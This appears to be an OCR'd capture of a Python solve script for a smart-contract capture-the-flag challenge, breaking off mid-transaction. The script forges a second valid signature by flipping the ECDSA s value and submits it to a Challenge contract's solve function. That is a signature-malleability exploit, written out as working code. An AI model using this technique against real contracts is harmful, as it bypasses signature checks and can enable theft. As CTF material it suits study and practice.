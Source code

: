 ```python
                "Setup.sol": {
                    "content": setupSource
                }},
            "settings": {
                "outputSelection": {
                    "*": {
                        "*":
                        ["abi", "evm.bytecode"]}
                }
            }
        }, solc_version="0.8.16")
    setupAbi = setupCompiled["contracts"]["Setup.sol"]["Setup"]["abi"]
    return w3.eth.contract(address=setupAddress, abi=setupAbi)


def findChallengeContract():
    with open('./Challenge.sol', 'r') as file:
        challengeSource = file.read()
        challengeCompiled = solcx.compile_standard({
            "language": "Solidity",
            "sources": {
                "Challenge.sol": {
                    "content": challengeSource
                }},
            "settings": {
                "outputSelection": {
                    "*": {
                        "*":
                        ["abi", "evm.bytecode"]}
                }
            }
        }, solc_version="0.8.16")
    challengeAbi = challengeCompiled["contracts"]["Challenge.sol"]["Challenge"]["abi"]
    challengeAddress = setupContract.functions.challenge().call()
    return w3.eth.contract(address=challengeAddress, abi=challengeAbi)


# get account from address, since this one is checked from website
account = w3.eth.account.from_key(privateKey).address

# find existing contracts
setupContract = findSetupContract()
challengeContract = findChallengeContract()

# signature from website
sig = '0x1aa390a8699431789672e5b3655a2aed422e2afd508e908268f85a8d0bf8d01b57a1e468f0f395a292eb86fd1072dd5d410910d6bb1b3a9238d258bfdf37599a1b'
secp256k1n = 115792089237316195423570985008687907852837564279074904382605163141518161494337
r = sig[2:66]
s = sig[66:130]
s = int(s, 16)
s = secp256k1n - s
s = hex(s)[2:]
sig = '0x' + r + s + '1c'

# call eresolve with a signature
message = "a"
message = f"\x19Ethereum Signed Message:\n{len(message)}{message}".encode()
nonce = w3.eth.getTransactionCount(account)
tx = challengeContract.functions.solve('0x0000000000000000000000000000000000000001', sig, message).buildTransaction({
    "from": account,
    "nonce": nonce,
```